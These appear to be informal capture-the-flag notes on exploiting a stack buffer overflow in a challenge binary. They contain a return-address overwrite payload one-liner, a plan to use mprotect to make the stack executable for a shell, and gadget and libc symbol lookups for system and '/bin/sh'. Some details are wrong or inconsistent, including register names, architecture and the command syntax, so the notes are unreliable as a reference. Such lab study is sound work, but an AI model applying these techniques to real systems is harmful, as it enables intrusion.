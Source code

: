 gets = 0x00000000004011df
Instruction of isAdmin = 0x080492bc
&name = 0x7fffffffd900

This is THE FUNC WE WANT to overwrite!!!
0x08049299

Register:
$rsp = 0x7fffffffd300 => 6 bytes used
$rbp = 0x7fffffffdb00

previous value of $rsp (stack pointer) = 0x08049294
get to print func

Main stack function:
$rsp = 0xffffc590
just after the jump to printName = 0x00000000 0040116e

get to thsi function: 0x0000000000401146 (main)

TOOD: Need to manipulate the return value to jump to welcomeAdmin
![](./RCE_location.png)

0xffffc58c - 0xffffc56c = 32 bytes needed

python3 "import sys; sys.stdout.buffer.write(28 * b'C' + b'\x4a\x93\x04\08')" > ./challenge

--------------------------------------------------------------------
Address randomisation occurs -> need to update locally

Interesting how the make file did not compile it automatically to 64bit
(x64) and resort to x86 (32 bits) instead

Further supported by the fact that the challenge binary is huge 😭
![](./file-size.png)

Static linking means we can use the libc binaries
![](./file-properties.png)
![](./checksec.png)

Notice that the main function and f function does not have a stack canary!!
![](./no-canary.png)

Attack:
We will make the stack executable by using the function
mprotect within libc to remove stack execution protection.

Then insert remote shell

TODO:
We need to know how mprotect function works
Page aligned address
<https://man7.org/linux/man-pages/man2/mprotect.2.html>

`int mprotect(addr[.size],    size,            protection);`
registers:      RDI ,         RSX,        ,     RDI

PROT_READ = 4
PROT_WRITE = 2
PROT_EXEC = 1
protection = 0x7

dl_pagesize = (little endian): 0x00 10 00 00 00 00 00 00
            = 0x 00 00 00 00 00 00 10 00
            = 4096 bytes

__libc_stack_end = 0x0049fa38
puts = 0x0040a780

0x0000000000402081 : pop rdi ; ret

ROP commands:

ROPgadget --binary /lib32/libc.so.6 | grep -Pi 'pop edi'

readelf -s /lib32/libc.so.6 | grep exit
   458: 0017edd0    34 FUNC    GLOBAL DEFAULT   14 atexit@GLIBC_2.0
   582: 0003ead0    33 FUNC    GLOBAL DEFAULT   14 exit@@GLIBC_2.0
   739: 00040210   198 FUNC    WEAK   DEFAULT   14 on_exit@@GLIBC_2.0
   795: 0009a160    12 FUNC    GLOBAL DEFAULT   14 thrd_exit@GLIBC_2.28
   797: 0009a160    12 FUNC    GLOBAL DEFAULT   14 thrd_exit@@GLIBC_2.34
  1835: 000e6890    56 FUNC    GLOBAL DEFAULT   14 _exit@@GLIBC_2.0
  2490: 001729a0    56 FUNC    GLOBAL DEFAULT   14 svc_exit@GLIBC_2.0
  2957: 0017ee00    33 FUNC    GLOBAL DEFAULT   14 quick_exit@GLIBC_2.10


readelf -s /lib32/libc.so.6 | grep 'system'
  1151: 00052220    55 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.0

strings -a -t x /lib32/libc.so.6 | grep -Pi 'bin/sh'
 1c6e52 /bin/sh


readelf -s /lib32/libc.so.6 | grep -Pi 'fgets' 
    78: 0007a1e0   440 FUNC    WEAK   DEFAULT   14 fgets@@GLIBC_2.0
   110: 0007a1e0   440 FUNC    GLOBAL DEFAULT   14 _IO_fgets@@GLIBC_2.0
  1260: 00151450   479 FUNC    GLOBAL DEFAULT   14 fgetsgent@@GLIBC_2.10
  2231: 0015e110    61 FUNC    WEAK   DEFAULT   14 fgets[...]@@GLIBC_2.0
  2616: 00085e00   159 FUNC    WEAK   DEFAULT   14 fgets[...]@@GLIBC_2.1
  3131: 0015df30   479 FUNC    GLOBAL DEFAULT   14 fgetspent@@GLIBC_2.0


